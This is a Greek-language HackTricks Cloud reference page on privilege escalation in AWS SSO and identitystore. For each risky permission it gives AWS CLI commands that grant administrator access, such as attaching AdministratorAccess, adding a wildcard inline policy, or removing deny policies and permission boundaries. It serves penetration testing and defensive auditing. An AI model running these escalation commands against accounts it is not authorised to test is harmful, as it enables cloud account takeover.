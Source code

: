 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Για περισσότερες πληροφορίες σχετικά με το AWS Identity Center / AWS SSO ελέγξτε:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Σημειώστε ότι από **προεπιλογή**, μόνο **χρήστες** με δικαιώματα **από** τον **Λογαριασμό Διαχείρισης** θα μπορούν να έχουν πρόσβαση και **να ελέγχουν το IAM Identity Center**.\
Χρήστες από άλλους λογαριασμούς μπορούν να το επιτρέψουν μόνο αν ο λογαριασμός είναι **Ανατεθειμένος Διαχειριστής.**\
[Ελέγξτε τα έγγραφα για περισσότερες πληροφορίες.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

Ένας εύκολος τρόπος για να κλιμακώσετε τα δικαιώματα σε περιπτώσεις όπως αυτή θα ήταν να έχετε μια άδεια που να επιτρέπει την επαναφορά κωδικών πρόσβασης χρηστών. Δυστυχώς, είναι μόνο δυνατό να σταλεί ένα email στον χρήστη για να επαναφέρει τον κωδικό του, οπότε θα χρειαστείτε πρόσβαση στο email του χρήστη.

### `identitystore:CreateGroupMembership`

Με αυτή την άδεια είναι δυνατό να τοποθετήσετε έναν χρήστη μέσα σε μια ομάδα ώστε να κληρονομήσει όλα τα δικαιώματα που έχει η ομάδα.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να χορηγήσει επιπλέον άδειες σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του.

{% hint style="warning" %}
Για να εκμεταλλευτείτε αυτές τις άδειες σε αυτή την περίπτωση, πρέπει να γνωρίζετε το **όνομα μιας πολιτικής διαχείρισης πελατών που βρίσκεται σε ΟΛΟΥΣ τους λογαριασμούς** που θα επηρεαστούν.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δώσει ένα Permission Set σε έναν χρήστη υπό τον έλεγχό του σε έναν λογαριασμό.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Επιστρέφει τα βραχυπρόθεσμα διαπιστευτήρια STS για ένα συγκεκριμένο όνομα ρόλου που έχει ανατεθεί στον χρήστη.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ωστόσο, χρειάζεστε ένα διακριτικό πρόσβασης που δεν είμαι σίγουρος πώς να αποκτήσετε (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας διαχειριζόμενης πολιτικής AWS από το καθορισμένο σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν περισσότερα προνόμια μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας πολιτικής που διαχειρίζεται ο πελάτης από το καθορισμένο σύνολο αδειών. Είναι δυνατή η χορήγηση περισσότερων προνομίων μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τις άδειες από μια inline πολιτική από το σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αποσυνδέοντας μια inline πολιτική (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει το Permission Boundary από το σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αφαιρώντας τους περιορισμούς στο Permission Set** που δίνονται από το Permission Boundary.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
